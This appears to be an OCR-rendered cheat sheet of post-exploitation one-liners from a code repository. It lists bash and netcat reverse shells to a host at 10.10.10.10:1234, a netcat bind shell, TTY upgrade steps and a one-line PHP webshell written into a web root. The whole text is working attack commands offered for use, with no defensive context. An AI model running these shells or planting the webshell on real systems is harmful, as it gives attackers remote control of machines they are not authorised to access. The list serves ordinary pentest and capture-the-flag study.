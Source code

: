 - `bash -c 'bash -i >& /dev/tcp/10.10.10.10/1234 0>&1'` – Reverse shell  
- `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.10.10 1234 >/tmp/f` – Reverse shell alt  
- `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc -lvp 1234 >/tmp/f` – Bind shell  
- `python -c 'import pty; pty.spawn("/bin/bash")'` – TTY upgrade 1  
- `Ctrl + Z → stty raw -echo → fg → Enter x2` – TTY upgrade 2  
- `echo "<?php system(\$_GET['cmd']);?>" > /var/www/html/shell.php` – PHP webshell  


